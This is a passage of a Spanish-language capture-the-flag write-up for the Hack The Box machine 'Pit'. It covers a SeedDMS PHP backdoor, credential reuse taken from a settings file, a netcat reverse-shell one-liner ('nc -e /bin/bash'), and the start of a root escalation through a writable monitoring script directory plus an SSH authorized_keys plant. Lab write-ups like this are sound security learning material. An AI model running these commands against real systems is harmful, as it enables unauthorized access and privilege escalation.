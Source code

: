 Según dice, podemos crear una backdoor en PHP en cualquier carpeta en la que podamos escribir, en nuestro caso Docs/Users/Michelle, anotamos el ID correspondiente al documento y nos vamos a la ruta dms-pit.htb/seeddms51x/seeddms/Docs/Users/Michelle/id/1.php(el archivo se tiene que llamar así, si no no funciona y no sé muy bien por qué), y mediante el parámetro cmd le pasamos un comando a ejecutar, aunque yo usé una fake shell que creó [Lanz](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/pit/fakeSheedDMS.py)(dadle una estrella porque se lo merece). Con la fake shell estuve enumerando un rato hasta que llegué a la ruta `/var/www/html/seeddms51x/conf/settings.xml`, que contiene unas credenciales bastante interesantes:

![imagen](https://user-images.githubusercontent.com/71317374/134780702-e2e0a1a7-28f2-436b-a4d2-c019ee07340f.png)

Sirven para un mySQL, pero ¿y si las usamos en el panel de login del puerto 9090? Pues que funcionan.

![imagen](https://user-images.githubusercontent.com/71317374/134780746-82919ccc-de60-4b34-9903-211b67de4cd8.png)


# Conseguimos acceso {#shell}

Y estaríamos dentrooooooooooooowowowowowowoooooooooo, y además con algo llamado Terminal, que tiene un uso bastante claro.

![imagen](https://user-images.githubusercontent.com/71317374/134780764-959a1ba8-4d10-444d-a7da-c6caea9b901b.png)

EXACTOOOO, es una terminal como Michelle!! Entonces solo hay que enviarnos una reverse shell y pa' dentrooooo
Y encima tiene una versión relativamente nueva de `netcat`, así que con el comando `nc -e /bin/bash tuip tupuerto` estarías dentro como Michelle.

![imagen](https://user-images.githubusercontent.com/71317374/134780824-1004e84a-86ce-4ada-905a-a165b4f5863f.png)

Y ya si quieres, coges la User Flag, o no, como quieras. Para que no se nos vaya la shell a hacer puñetas con un ctrl+c y además hacerla interactiva, podemos hacer un [tratamiento de la TTY](https://www.thehackersnow.com/tratamiento-de-una-tty/).

Con esto hecho, podríamos seguir en nuestro avance hacia la cocina.

#Rooteada! {#root}
¿Os acordáis del archivo /usr/bin/monitor que apareció en la enumeración del servicio SNMP? Bien, pues es un script en bash bastante interesante, ya que coge todo lo que hay en /usr/local/monitoring y que se llama check [loquesea] sh y lo interpreta con bash.

```
[michelle@pit ~]$ cat /usr/bin/monitor
#!/bin/bash

for script in /usr/local/monitoring/check*sh
do
    /bin/bash $script
done
```
Si comprobamos si tenemos permiso para escribir en /usr/local/monitoring:

```bash
[michelle@pit ~]$ ls -l /usr/local | grep monitoring
drwxrwx---+ 2 root root 182 Sep 25 13:40 monitoring
```
Lo tenemoooooooooooooooos, así que solo faltaría colar un script que haga algo malo 😈 y nos metemos hasta la cocina. En este caso he optado por meter mi clave pública de SSH en el directorio /root/.ssh/authorized_keys, así que primero generamos nuestra clave pública:
